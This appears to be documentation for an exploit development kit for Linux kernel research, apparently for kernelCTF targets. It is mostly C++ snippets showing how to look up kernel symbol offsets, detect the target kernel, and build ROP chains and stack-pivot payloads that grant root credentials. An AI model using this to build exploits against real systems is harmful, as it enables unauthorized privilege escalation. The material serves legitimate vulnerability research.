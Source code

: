 # How to get started

## Initialize the Target Database

The target database contains all of the information needed to customize the exploit for the current target.

This section describes how to use the prebuilt database, extend it if necessary and how to make it replaceable with an updated version.

1. Add the necessary includes to the exploit code.

    ```c++
    #include <xdk/core.h>
    #include <xdk/postrip.h>
    ```

2. Include the **target_db**. `INCBIN` creates a read-only section in the exploit binary with the current target database content.

    ```c++
    INCBIN(target_db, "target_db.kxdb");
    ```

3. Initialize **TargetDb**. This constructor uses the `target_db.kxdb` file if exists, otherwise it fallbacks to the compile-time `INCBIN`'d database. This way, the exploit can be customized for running on other targets by supplying another `target_db.kxdb` after compilation time.

    ```c++
    TargetDb kxdb("target_db.kxdb", target_db);
    ```

4. Already available in database structure and symbol offsets are documented in [kxdb_tool/config.py](https://github.com/google/kernel-research/blob/main/kxdb_tool/config.py).
They are added for all the supported targets.

5. If the needed symbol is not in database, use `Target` object to add it. One object per target needed. For example:

    ```c++
    Target st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kxdb.AddTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    st.AddStruct("nft_expr_ops", 128, {
        {"dump", 64, 8},
        {"type", 120, 8} });
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7.  Detect which target the exploit is being run on.

    ```c++
    auto target = kxdb.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.GetDistro().c_str(), target.GetReleaseName().c_str());
    ```

8. Access pre-defined or added (via `Target`) structures and symbols using following calls:

    ```c++
    auto size = target.GetStructSize("nft_expr_ops"); // not used, just showing API usage
    auto offset = target.GetFieldOffset("nft_expr", "ops"); // get the offset of ops field in nft_expr structure

    *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops
    ```

## Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. To set constants or to reserve areas that must not be altered by the `PayloadBuilder`, set their values explicitly beforehand:

   ```c++
   payload.SetU64(0, 0x100); // Sets 8 bytes at offset 0 to 0x100.
   payload.SetU32(24, 0);    // Sets 4 bytes at offset 24 to 0 (reserving the area).
   ```

3. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_INIT_TASK_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

    > **Note**
    > Available ROP actions could be found in [kxdb_tool/config.py](https://github.com/google/kernel-research/blob/main/kxdb_tool/config.py).

## Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

    In the situation when multiple registers contain a pointer to the payload, it's worth informing `PayloadBuilder` about it:
    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);
    ```

    `PayloadBuilder` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform `PayloadBuilder` about such a setup use:
    ```c++
    Payload payload1(payload_size_1);
    Payload payload2(payload_size_2);
    PayloadBuilder builder(target.pivots, kernel_base); // create builder

    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build())
        exit(-1);
    ```

    Once built, the `payload` object contains the complete, ready-to-use exploit payload.

5. The contents of the final payload can be printed for inspection and debugging using the `HexDump::Print` method.

    ```c++
    printf("[+] Payload:\n");
    HexDump::Print(payload.GetUsedData());
    ```

    > **Note:**
    > The `GetUsedData()` method returns only the data actually written to the payload, excluding the unused bytes at the end of the buffer.

6. In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:

   ```c++
    *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset();
   ```
